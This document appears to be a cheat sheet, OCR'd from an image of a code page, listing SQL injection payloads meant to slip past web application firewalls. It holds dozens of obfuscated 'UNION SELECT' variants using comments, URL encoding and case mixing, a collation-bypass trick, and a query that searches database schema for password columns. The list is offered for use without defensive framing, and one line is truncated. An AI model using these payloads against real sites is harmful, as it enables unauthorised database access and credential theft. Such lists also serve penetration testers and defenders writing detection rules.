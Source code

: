 `  /**/UNION/**//*!50000SELECT*//**/`
`  /*!50000UniON SeLeCt*/`
`  union /*!50000%53elect*/`
`  +#uNiOn+#sEleCt`
`  +#1q%0AuNiOn all#qa%0A#%0AsEleCt`
`  /*!%55NiOn*/ /*!%53eLEct*/`
`  /*!u%6eion*/ /*!se%6cect*/`
`  +un/**/ion+se/**/lect`
`  uni%0bon+se%0blect`
`  %2f**%2funion%2f**%2fselect`
`  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`
`  REVERSE(noinu)+REVERSE(tceles)`
`  /*--*/union/*--*/select/*--*/`
`  union (/*!/**/ SeleCT */ 1,2,3)`
`  /*!union*/+/*!select*/`
`  union+/*!select*/`
`  /**/union/**/select/**/`
`  /**/uNIon/**/sEleCt/**/`
`  /**//*!union*//**//*!select*//**/`
`  /*!uNIOn*/ /*!SelECt*/`
`  +union+distinct+select+`
`  +union+distinctROW+select+`
`  +UnIOn%0d%0aSeleCt%0d%0a`
`  UNION/*&test=1*/SELECT/*&pwn=2*/`
`  un?+un/**/ion+se/**/lect+`
`  +UNunionION+SEselectLECT+`
`  +uni%0bon+se%0blect+`
`  %252f%252a*/union%252f%252a /select%252f%252a*/`
`  /%2A%2A/union/%2A%2A/select/%2A%2A/`
`  %2f**%2funion%2f**%2fselect%2f**%2f`
`  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`
`  /*!UnIoN*/SeLecT+`

**Union Select by PASS with Url Encoded Method:**
%55nion(%53elect)
union%20distinct%20select
union%20%64istinctRO%57%20select
union%2053elect
%23?%0auion%20?%23?%0aselect
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
%55nion %53eLEct
u%6eion se%6cect
unio%6e %73elect
unio%6e%20%64istinc%74%20%73elect
uni%6fn distinct%52OW s%65lect
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
**Illegal mix of Collations ByPass Method :**
unhex(hex(Concat(Column_Name,0x3e,Table_schema,0x3e,table_Name)))

`   /*!from*/information_schema.columns/*!where*/column_name%20/*!like*/char(37,%20112,%2097,%20115,%20115,%2037)`
